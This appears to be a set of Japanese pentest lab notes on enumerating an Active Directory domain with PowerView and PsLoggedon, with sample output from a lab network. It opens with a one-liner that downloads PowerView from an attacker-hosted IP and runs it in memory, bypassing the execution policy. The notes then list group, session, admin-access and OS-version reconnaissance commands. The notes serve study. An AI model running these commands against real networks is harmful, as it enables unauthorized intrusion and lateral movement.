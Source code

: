 ```powershell
# in-memory
powershell.exe -NoProfile -ExecutionPolicy unrestricted IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.250:8000/PowerView.ps1')
```

```powershell
# グループメンバー列挙
Get-NetGroup "Management Department" | select member
```

```powershell
#現在のユーザーがドメイン内のコンピュータで管理者権限を持つか
PS C:> Find-LocalAdminAccess
client74.corp.com
```

```powershell
#リモートホストのログイン状況確認
PS C:\Tools> Get-NetSession -ComputerName client74　-Verbose

CName        : \\192.168.50.75
UserName     : stephanie
Time         : 8
IdleTime     : 0
ComputerName : client74
```

※パーミッションエラーになることも多い

```powershell
#ドメイン内のホストのビルドバージョン
PS C:\Tools> Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

dnshostname       operatingsystem              operatingsystemversion
-----------       ---------------              ----------------------
DC1.corp.com      Windows Server 2022 Standard 10.0 (20348)
web04.corp.com    Windows Server 2022 Standard 10.0 (20348)
FILES04.corp.com  Windows Server 2022 Standard 10.0 (20348)
client74.corp.com Windows 11 Pro               10.0 (22000)
client75.corp.com Windows 11 Pro               10.0 (22000)
CLIENT76.corp.com Windows 10 Pro               10.0 (16299) #古い
```

*  PsLoggedon.exeを用いたリモートホストログイン情報の確認

```powershell
#リモートホストのログイン情報取得
PS C:\Tools\PSTools> .\PsLoggedon.exe \\files04

PsLoggedon v1.35 - See who's logged on
Copyright (C) 2000-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Users logged on locally:
     <unknown time>             CORP\jeff
Unable to query resource logons
```
